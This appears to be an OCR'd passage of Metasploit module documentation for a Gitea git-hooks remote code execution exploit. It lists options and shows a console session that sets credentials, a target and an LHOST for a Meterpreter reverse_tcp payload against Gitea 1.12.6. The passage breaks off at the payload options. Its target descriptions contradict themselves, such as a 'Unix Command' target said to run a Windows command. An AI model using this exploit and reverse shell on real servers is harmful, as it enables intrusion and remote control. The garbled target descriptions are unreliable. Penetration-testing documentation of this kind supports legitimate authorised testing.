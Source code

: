This uses a Linux dropper to execute code.

### 2 (Unix Command)

This executes a Windows command.

### 3 (Linux Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path of the Gitea application, which is set to `/` by default.

### USERNAME

The username to authenticate with.

### PASSWORD

The password to authenticate with.

## Scenarios

### Gitea 1.12.6 on Docker

```
msf > use multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gitea_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf exploit(multi/http/gitea_git_hooks_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/gitea_git_hooks_rce) > set LHOST 192.168.1.75
LHOST => 192.168.1.75
msf exploit(multi/http/gitea_git_hooks_rce) > set RPORT 3000
RPORT => 3000
msf exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

```